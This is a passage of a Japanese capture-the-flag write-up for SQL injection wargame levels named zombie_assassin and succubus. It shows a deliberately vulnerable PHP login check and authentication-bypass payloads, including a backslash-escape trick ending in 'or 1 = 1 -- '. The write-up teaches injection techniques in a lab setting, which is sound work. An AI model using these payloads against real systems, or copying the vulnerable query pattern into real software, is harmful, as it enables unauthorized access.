 ### 回答
``` sql
select id from prob_zombie_assassin where id='' or 1 = 1 #' and pw=''
```

## succubus
### 問題
``` php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```
### 考察
一個上の問題のereg関数がpreg_match関数に変わってますね．
NULLバイトアタックを使ってもできないので他を考えました．

### 回答
バックスラッシュでシングルクォーテーションをエスケープします．
ハイライトを見るとわかりやすいです．
``` sql
select id from prob_succubus where id='\' and pw=' or 1 = 1 -- '
```
